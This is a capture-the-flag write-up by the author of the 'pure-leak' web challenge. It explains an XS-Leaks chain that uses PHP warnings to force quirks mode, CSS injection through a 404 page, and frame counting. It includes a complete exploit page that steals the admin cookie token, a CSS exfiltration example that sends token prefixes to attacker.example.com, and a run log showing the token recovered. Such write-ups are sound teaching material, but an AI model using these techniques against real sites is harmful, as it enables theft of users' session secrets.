

import {Tweet} from "@site/src/components/tweet";

I made a web challenge `pure-leak` for ASIS CTF Quals 2025 as a guest author.

- Difficulty: 2 solves / 450 pts
- Author: [me](https://x.com/arkark_)
- Source: https://github.com/arkark/my-ctf-challenges/tree/main/challenges/202509_ASIS_CTF_Quals_2025/web/pure-leak

Congrats to `MEOW MEOW MEOW MEOW MEOW` and `Water Paddler` for solving it! :tada:


Despite its simplicity, the solution relies on several neat HTML/CSS tricks. Below I'll outline the key ideas and how they fit together.

<!-- truncate -->

## Challenge Overview

This is a fairly simple XS-Leaks challenge (but, "simple" doesn't mean "easy").


The server-side code is written in PHP:
```php title="web/index.php"
<?php
function validate(mixed $input): string {
  if (!is_string($input)) return "Invalid types";
  if (strlen($input) > 1024) return "Too long";
  if (preg_match('/[^\x20-\x7E\r\n]/', $input)) return "Invalid characters";
  if (preg_match('*http|data|\\\\|\*|\[|\]|&|%|@|//*i', $input)) return "Invalid keywords";
  return $input;
}
?>
<!DOCTYPE html>
<html>
<body>
  <h1>pure-leak 🫨</h1>
  <h3>Source</h3>
  <pre><?php echo htmlspecialchars(file_get_contents(__FILE__)); ?></pre>
  <h3>Content</h3>
  <?php echo validate($_GET["content"] ?? "{{ your_input }}")."\n"; ?>
  <h3>Token</h3>
  <?php echo htmlspecialchars($_COOKIE["TOKEN"] ?? "TOKEN_0123456789abcdef"); ?>
  <h3>Usage</h3>
  <a href="/?content=your_input">/?content=your_input</a>
</body>
</html>
```

The following line has an obvious HTML injection vulnerability via the `content` query parameter:
```php
<?php echo validate($_GET["content"] ?? "{{ your_input }}")."\n"; ?>
```

A Caddy reverse proxy is used for load balancing and adding CSP header:
```bash title="web/entrypoint.sh"
#!/bin/sh
set -eu

# load balancing
php -S 127.0.0.1:9000 &
php -S 127.0.0.1:9001 &
php -S 127.0.0.1:9002 &
php -S 127.0.0.1:9003 &

cat > /tmp/Caddyfile << EOF
:3000 {
  header {
    defer
    Content-Security-Policy "script-src 'none'; default-src 'self'; base-uri 'none'"
  }

  reverse_proxy 127.0.0.1:9000 127.0.0.1:9001 127.0.0.1:9002 127.0.0.1:9003 {
    replace_status 200
  }
}
EOF

exec caddy run --config /tmp/Caddyfile
```

The challenge overview is as follows:

- Goal
    - Steal the admin token: `$_COOKIE["TOKEN"]`
- Rules:
    - You can inject HTML via `$_GET["content"]`
    - Token format: `TOKEN_[0-9a-f]{16}`
    - The application runs on PHP's built-in server behind Caddy
- Limitations:
    - Validation for `$_GET["content"]`:
        - Type: `string`
        - Length limit: `1024`
        - Allowed characters: `[\x20-\x7e\r\n]`
        - Disallowed substrings (case-insensitive):
            - `http`, `data`, `\`, `*`, `[`, `]`, `&`, `%`, `@`, `//`
    - CSP: `script-src 'none'; default-src 'self'; base-uri 'none'`
    - Admin bot's timeout: `20 seconds`
        - It's relatively **short** for XS-Leaks challenges

## Solution

### Step 1: Forcing Quirks Mode with PHP Warnings

One of the naive plans for this CSP is CSS data exfiltration:
```
Content-Security-Policy: script-src 'none'; default-src 'self'; base-uri 'none'
```

In general, a `<link href="..." rel="stylesheet">` only loads stylesheets if the response's Content-Type is `text/css`.

Spec:

> To process this type of linked resource given a link element el, boolean success, response response, and byte sequence bodyBytes:
>
> 1. If the resource's **Content-Type metadata is not text/css**, then set success to false.
> 2. ...

Source: https://html.spec.whatwg.org/multipage/links.html#link-type-stylesheet

Under `default-src 'self'`, there's no same-origin endpoint that returns `text/css`, so CSS injection likely doesn't work.

However, there's an important exception. Quirks mode relaxes the MIME check for same-origin!

> Quirk: If the document has been set to **quirks mode**, has the same origin as the URL of the external resource, and the Content-Type metadata of the external resource is not a supported style sheet type, the user agent must instead assume it to be text/css.

:::info
As a related note, the traditional attack called **Relative Path Overwrite (RPO)** requires the page to be in quirks mode. This requirement stems from the MIME-check relaxation mentioned above.
:::

Now, look at `index.php`. It emits `<!DOCTYPE html>` at the beginning, so the page is in **no-quirks mode**, not **quirks mode**, and the MIME-check relaxation doesn't apply.


`document.compatMode === "CSS1Compat"` means the page is in no-quirks mode. So, CSS loading appears impossible... Really?

Last year, [pilvar](https://x.com/pilvar222) showed a novel CSP bypass technique using PHP warnings:

<Tweet html='<blockquote class="twitter-tweet"><p lang="en" dir="ltr">🧵[1/9] Time to publish the solution to this challenge! <a href="https://t.co/rBuH8nEVMX">https://t.co/rBuH8nEVMX</a> The goal of this challenge was to find an XSS while avoiding it being blocked by the CSP sent by the PHP header() function. Let&#39;s dive into it!</p>&mdash; pilvar (Philippe Dourassov) (@pilvar222) <a href="https://twitter.com/pilvar222/status/1784618120902005070?ref_src=twsrc%5Etfw">April 28, 2024</a></blockquote> <script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script>'></Tweet>

PHP emits a warning message when the number of query parameters exceeds the `max_input_vars` threshold (default: 1000). Even if the application later calls `header(...)`, part of the body has already been sent, so the CSP header will not be added.

In this challenge, it's impossible to drop CSP header because it's added by Caddy. However, can we adapt this technique to change quirks/no-quirks mode?

The answer is yes. If we trigger the warning before `<!DOCTYPE html>` is sent, the page enters quirks mode. That's exactly what we want.

Example:
```
http://localhost:3000/?a&a&a&a&a&a&a&a&a&a&a&...<1001 parameters>...
```


`document.compatMode === "BackCompat"` means the page is in quirks mode.

At this point, same-origin CSS loading becomes possible even without a `text/css` MIME type.

### Step 2: Using 404 Error Pages as a CSS Injection Sink


Now, can we simply load `/index.php?content=<css payload>` as a stylesheet?

```javascript
const content = `
  <link href="/index.php?content={}body{background:limegreen}" rel=stylesheet>
`;
location = `http://localhost:3000?content=${
  encodeURIComponent(content)
}${"&a".repeat(1000)}`;
```

The answer is no. Before the HTML injection point, the page contains `/*`, so the payload lands inside a CSS comment. Because using `*` is disallowed by validation, we can't close the comment.


We need an endpoint where we control raw text without landing inside a comment.

Conveniently, PHP's built-in 404 page includes the requested URL in the response body. We can leverage it for CSS injection.


In fact, the CSS injection works at `/not-found.txt?{}body{background:limegreen}`:

```javascript
const content = `
  <link href="/not-found.txt?{}body{background:limegreen}" rel=stylesheet>
`;
location = `http://localhost:3000?content=${
  encodeURIComponent(content)
}${"&a".repeat(1000)}`;
```


### Step 3: CSS Injection without Attribute Selectors

A classic CSS exfiltration payload looks like:

```css
input[value^="TOKEN_012"] {
  background-image: url(http://attacker.example.com/?orefix=TOKEN_012);
}
```

But, we can't use this payload here due to:

- Issue 1: `[` and `]` are banned
    - → Using attribute selectors are disallowed.
- Issue 2: CSP includes `default-src 'self'`
    - → Using external requests are disallowed (so `url(...)` leaks don't work).

For Issue 1, we can emulate attribute checks using a `:valid` pseudo-class and an `<input>`'s `pattern` attribute:

- `:valid`: https://developer.mozilla.org/en-US/docs/Web/CSS/:valid
- `pattern`: https://developer.mozilla.org/en-US/docs/Web/HTML/Reference/Attributes/pattern

Example (with Dangling Markup Injection):

```javascript
const pattern = "TOKEN_012";
const content = `
  <link href="/not-found.txt?{}div:has(input:valid){background:limegreen}" rel=stylesheet>
  <div>
    <input pattern=".+${pattern}.+" value="
`;
location = `http://localhost:3000?content=${
  encodeURIComponent(content)
}${"&a".repeat(1000)}`;
```

Rendered HTML:


Match (`pattern=".+TOKEN_012.+"`):


Miss (`pattern=".+TOKEN_01a.+"`):


### Step 4: CSS Exfiltration without Network Request via Frame Counting

We still need to address Issue 2 (we can't use `url(...)` due to `default-src 'self'`).

Now, I'd like to introduce a useful technique with frame counting trick:

- Frame Counting: https://xsleaks.dev/docs/attacks/frame-counting/

As an important fact, `<embed>` (or `<object>`) increments `window.length` unless it's hidden with `display: none`.

No style applied → `window.length === 1`:


CSS with `display:none` applied → `window.length === 0`:


This yields a **stable** and **fast** oracle without any external requests:

```javascript
const match = async (pattern) => {
  win.location = "about:blank";
  await sleep(100);

  const content = `
    <link href="/not-found.txt?{}div:has(input:valid){display:none}" rel=stylesheet>
    <div>
      <embed code="x" type=text/html>
      <input pattern=".+${pattern}.+" value="
  `;
  const url = `${BASE_URL}?content=${encodeURIComponent(
    content
  )}${"&a".repeat(1000)}`;

  win.location = url;
  await sleep(100);

  return win.length === 0; // frame counting
};

// Check the prefix of a token
const result = await match("TOKEN_123");
```

## Putting It All Together

The final exploit looks like this:
```html
<body>
  <script type="module">
    const BASE_URL = "http://web:3000";

    const sleep = (ms) => new Promise((resolve) => setTimeout(resolve, ms));

    const TOKEN_SIZE = 16;

    let known = "TOKEN_";
    const win = open("");

    const CHARS = [..."0123456789abcdef"];

    const match = async (pattern) => {
      win.location = "about:blank";
      while (true) {
        try {
          win.origin;
          break;
        } catch {
          await sleep(3);
        }
      }

      const content = `
        <link href="/not-found.txt?{}div:has(input:valid){display:none}" rel=stylesheet>
        <div>
          <embed code="x" type=text/html>
          <input pattern=".+${pattern}.+" value="
      `;
      const url = `${BASE_URL}?content=${encodeURIComponent(
        content
      )}${"&a".repeat(1000)}`; // PHP warnings

      win.location = url;
      while (true) {
        try {
          win.origin;
          await sleep(3);
        } catch {
          break;
        }
      }
      await sleep(100);

      return win.length === 0; // frame counting
    };

    for (let i = 0; i < TOKEN_SIZE; i++) {
      // binary search
      let left = 0;
      let right = CHARS.length;
      while (right - left > 1) {
        const mid = (right + left) >> 1;

        const p = "(" + CHARS.slice(left, mid).join("|") + ")";
        if (await match(known + p)) {
          right = mid;
        } else {
          left = mid;
        }
      }
      known += CHARS[right - 1];
      navigator.sendBeacon("/debug", known);
    }

    navigator.sendBeacon("/token", known);
  </script>
</body>
```

Full exploit:

- https://github.com/arkark/my-ctf-challenges/blob/main/challenges/202509_ASIS_CTF_Quals_2025/web/pure-leak/solution/index.html

Example run:
```bash
$ docker run -it --rm \
    -e BOT_BASE_URL=http://pure-leak.asisctf.com:1337 \
    -e CONNECTBACK_URL=http://attacker.example.com \
    -p 8080:8080 \
    (docker build -q ./solution)
(node:1) [FSTWRN003] FastifyWarning: The listen method mixes async and callback styles that may lead to unhandled rejections. Please use only one of them.
(Use `node --trace-warnings ...` to show where the warning was created)
[DEBUG] TOKEN_6
[DEBUG] TOKEN_62
[DEBUG] TOKEN_629
[DEBUG] TOKEN_6290
[DEBUG] TOKEN_6290e
[DEBUG] TOKEN_6290e5
[DEBUG] TOKEN_6290e54
[DEBUG] TOKEN_6290e546
[DEBUG] TOKEN_6290e5469
[DEBUG] TOKEN_6290e54698
[DEBUG] TOKEN_6290e546987
[DEBUG] TOKEN_6290e546987d
[DEBUG] TOKEN_6290e546987d4
[DEBUG] TOKEN_6290e546987d4e
[DEBUG] TOKEN_6290e546987d4e0
[DEBUG] TOKEN_6290e546987d4e0d
{
  token: 'TOKEN_6290e546987d4e0d',
  flag: 'ASIS{silksooooooong_9_4_y4y!!}'
}
```
